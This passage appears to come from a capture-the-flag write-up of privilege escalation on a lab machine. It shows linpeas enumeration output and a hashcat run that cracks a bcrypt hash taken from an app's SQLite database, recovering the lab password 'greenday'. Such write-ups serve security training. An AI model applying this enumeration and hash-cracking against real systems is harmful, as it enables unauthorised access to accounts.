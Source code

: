 # Root
First thing first, let's upload `linpeas` and run it.

## linpeas interesting parts
```
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:41187         0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:36715         0.0.0.0:*               LISTEN
tcp        0      0 10.10.11.190:5357       0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3003          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN
tcp6       0      0 :::111                  :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 :::139                  :::*                    LISTEN
tcp6       0      0 :::445                  :::*                    LISTEN
```

```
marcus:x:1001:1002:,,,:/home/marcus:/bin/bash
openmediavault-webgui:x:999:996:Toby Wright,,,:/home/openmediavault-webgui:/bin/bash
rails:x:1000:100::/home/rails:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

```
drwxrwxr-x 8 rails rails 4096 Nov  4  2022 /var/www/rails-app/.git
```

There is an SMB server.

```
Found /var/www/rails-app/db/development.sqlite3: SQLite 3.x database, last written using SQLite version 3034001
```

```
drwxr-xr-x  5 openmediavault-webgui openmediavault-webgui  12K Nov  4  2022 openmediavault
```

So starting from the DB, the users password are stored as what seems to be `bcrypt` hash, it will be useless to crack `alice` password since there doesn't seem to be any user with that name on the machine, that's why we'll try with `toby` (which is `openmediavault-webgui` on the machine).
```
$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle:greenday
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqq...nZYyle
Time.Started.....: Sat Jul  8 17:37:53 2023, (2 secs)
Time.Estimated...: Sat Jul  8 17:37:55 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       95 H/s (293.33ms) @ Accel:1 Loops:512 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 224/14344384 (0.00%)
Rejected.........: 0/224 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3584-4096
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> horses
Hardware.Mon.#1..: Temp: 48c Util:100% Core:1740MHz Mem:5000MHz Bus:8
```